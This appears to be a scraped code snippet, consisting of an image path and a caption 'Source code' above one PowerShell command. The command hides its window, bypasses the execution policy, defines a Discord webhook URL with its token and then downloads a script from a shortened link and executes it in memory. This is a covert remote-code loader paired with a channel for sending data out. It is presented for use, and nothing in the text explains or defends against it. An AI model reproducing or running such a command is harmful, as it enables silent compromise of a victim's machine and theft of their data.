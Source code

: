 powershell -NoP -Ep Bypass -W H -C $dc='https://discordapp.com/api/webhooks/1217926553502220349/as9odv8QBqZhltK0mw1Mab0036hud5L0MbUugypXDFgE-iNL82CX5iiHILlGSSXYtFZO'; irm https://t.ly/rJl5k | iex

